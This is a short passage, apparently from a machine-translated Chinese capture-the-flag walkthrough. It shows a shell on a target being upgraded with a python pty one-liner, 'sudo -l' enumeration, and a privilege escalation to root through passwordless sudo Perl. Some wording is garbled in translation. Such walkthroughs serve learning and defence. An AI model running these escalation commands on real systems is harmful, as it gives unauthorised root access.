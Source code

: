 ![Screenshot-2020-08-28-at-22.22.42](img/0d7320c73d4ac80187f82d96f5f6999d.png)

我键入以下命令在目标系统上获得标准 shell

```
shell
```

我生了一个 TTY 贝壳

```
python3 -c "import pty; pty.spawn('/bin/bash/');"
```

我需要更改为根用户才能访问该文件夹。我使用命令

```
sudo -l
```

了解我可以在 localhost 上运行哪个命令。

![Screenshot-2020-08-28-at-22.26.07](img/5df15f339e35907a6cf19981967f8b41.png)

我发现用户 Shelly 可以在没有密码的情况下以“root”身份执行 Perl 命令。我使用以下命令执行 Perl 权限提升

```
sudo perl -e 'exec "/bin/bash";'
```
